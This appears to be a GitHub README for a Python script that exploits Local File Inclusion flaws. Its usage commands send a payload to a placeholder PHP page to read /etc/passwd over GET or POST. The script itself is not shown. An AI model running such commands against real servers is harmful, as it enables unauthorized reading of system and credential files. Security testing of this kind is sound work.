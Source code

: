 # LFI Exploit Script

A simple Python script to exploit Local File Inclusion (LFI) vulnerabilities using GET or POST requests.

## Usage

The script sends an LFI payload to a vulnerable URL with a specified parameter.

### Requirements
- Python 3.11+
- `requests` library (install via `pip install requests`)

### Running the script

#### POST request (default)
```bash
python lfi_exploit.py http://example.com/vuln_page.php param /etc/passwd POST
```

#### GET reqeust
```bash
python lfi_exploit.py http://example.com/vuln_page.php param /etc/passwd GET
```
